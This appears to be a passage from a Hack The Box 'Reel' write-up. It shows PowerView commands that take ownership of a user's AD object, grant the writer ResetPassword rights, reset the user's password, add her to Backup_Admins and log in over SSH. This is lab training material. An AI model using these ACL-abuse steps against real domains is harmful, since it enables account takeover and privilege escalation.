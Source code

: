 First we set ourselves as owners of the claire account so that we can change her properties:

```powershell
PS C:\Users\tom\desktop\ad audit\bloodhound> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
```
Then we change the Access Control List (ACL) of the claire AD object to give ourselves (Tom) the right to reset claire's password:

```powershell
PS C:\Users\tom\desktop\ad audit\bloodhound> Add-ObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
```

Then we choose a new password for the account and convert it to the SecureString format, which is what PowerShell uses it for passwords:

```powershell
PS C:\Users\tom\desktop\ad audit\bloodhound> $password= ConvertTo-SecureString 'Password_123!' -AsPlainText -Force
```

Now we can change claire's password with the one of our choice:

```powershell
PS C:\Users\tom\desktop\ad audit\bloodhound> Set-DomainUserPassword -Identity claire -AccountPassword $password
```

In order to add users to group we must provide valid user credentials so we declare a PSCredential object to contain username and password for claire, since she's the one with the write access to the Backup_Admins group:

```powershell
PS C:\Users\tom\desktop\ad audit\bloodhound> $creds = New-Object System.Management.Automation.PSCredential('HTB\claire',$password)
```

And we use it to add ourselves to the Backup_Admins group:

```powershell
PS C:\Users\tom\desktop\ad audit\bloodhound> Add-DomainGroupMember -Identity 'Backup_Admins' -Members 'claire' -Credential $creds
```

After doing this we can login through SSH with the new password we have set for claire:

```a
User: claire
Pass: Password_123!
```

And we are part of the Backup_Admins group:

```a
┌─[baud@parrot]─[~/reel]
└──╼ $ssh claire@10.10.10.77
claire@10.10.10.77's password:

Microsoft Windows [Version 6.3.9600]                                       
(c) 2013 Microsoft Corporation. All rights reserved.                       

claire@REEL C:\Users\claire>whoami /all                                    

USER INFORMATION                                                           
----------------                                                           

User Name  SID                                                             
========== ==============================================                  
htb\claire S-1-5-21-2648318136-3688571242-2924127574-1130                  

GROUP INFORMATION                                                          
-----------------                                                          
```